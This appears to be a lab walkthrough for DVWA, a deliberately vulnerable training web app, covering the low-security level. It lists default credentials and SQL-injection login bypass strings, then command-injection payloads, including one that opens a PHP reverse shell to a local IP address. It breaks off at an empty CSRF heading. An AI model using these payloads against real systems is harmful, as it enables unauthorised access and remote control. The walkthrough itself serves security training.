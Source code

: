 # DVWA

## Low

### Brute Force

Username | Password
-------- | --------
admin    | password
pablo    | letmein
1337     | charley
smithy   | password
gordonb  | abc123

Username         | Password
---------------- | --------
admin' or '1'='1 | (empty)
admin' or ''='   | (empty)

### Command Injection

show directory

```bash
127.0.0.1 > /dev/null; ls -alh
```

output

![alt text](images/photo_5.png)

create back connection (Remote Command Execution)

```bash
127.0.0.1 > /dev/null; php -r '$sock=fsockopen("192.168.10.10",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Cross Site Request Forgery (CSRF)
